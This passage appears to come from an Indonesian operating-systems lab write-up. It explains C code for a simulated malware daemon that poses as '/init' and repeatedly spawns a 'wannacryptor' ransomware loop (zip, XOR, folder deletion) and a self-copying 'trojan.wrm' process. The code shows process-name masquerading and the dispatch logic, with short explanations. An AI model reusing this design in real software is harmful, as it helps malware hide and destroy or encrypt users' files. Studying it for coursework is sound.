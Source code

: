 ```sh
                execv("/proc/self/exe", args);
                perror("execv wannacryptor failed");
                exit(1);
            }
        
            pid_t pid2 = fork();
            if (pid2 == 0) {
                char *args[] = {"trojan.wrm", NULL};
                execv("/proc/self/exe", args);
                perror("execv trojan.wrm failed");
                exit(1);
            }

            pid_t pid3 = fork();
            if (pid3 == 0) {
                char *args[] = {"rodok.exe", NULL};
                execv("/proc/self/exe", args);
                perror("execv rodok.exe failed");
                exit(1);
            }
            
            int status;
            waitpid(-1, &status, WNOHANG);

            sleep(30);
        }
    }

    char *newargv[] = { "init", NULL};
    execv("/proc/self/exe", newargv);
    perror("execv init failed");
    exit(1);
}
```
- `if (argc > 0 && strcmp(argv[0], "rodok.exe") == 0) {
    prctl(PR_SET_NAME, (unsigned long)"rodok.exe", 0, 0, 0);
    rodok_launcher();
    return 0;
}` Jika program dijalankan dengan argumen "rodok.exe", maka menjalankan `rodok_launcher()`.
- `if (argc > 0 && strcmp(argv[0], "wannacryptor") == 0) {
    prctl(PR_SET_NAME, (unsigned long)"wannacryptor", 0, 0, 0);
    wannacryptor();
    return 0;
}` Menjalankan loop ransomware `(zip_and_encrypt)` setiap 30 detik.
- `if (argc > 0 && strcmp(argv[0], "trojan.wrm") == 0) {
    prctl(PR_SET_NAME, (unsigned long)"trojan.wrm", 0, 0, 0);
    trojan_wrm();
    return 0;
}`Menyalin executable ini ke folder-folder di `/home/riverz/NAMA_FOLDER/runme`.
- `if (argc > 0 && strcmp(argv[0], "init") == 0) {
    daemonize();  // jadi background process
    chdir(cwd);   // balik ke working directory semula
    prctl(PR_SET_NAME, (unsigned long) "/init", 0, 0, 0);`
- ```if (argc > 0 && strcmp(argv[0], "init") == 0) {
        daemonize();
        chdir(cwd);
        prctl(PR_SET_NAME, (unsigned long) "/init", 0, 0, 0);
  ```
- Jika argumen pertama yang dijalankan adalah `init` maka menjalankan:
  - `daemonize()` Program menjadi proses daemon dan menyamarkan nama proses `/init`, lalu membuat 3 fork yang dijalankan terpisah:
  - `wannacryptor` ransomware (zip + xor + hapus folder).
  - `trojan.wrm`
  ```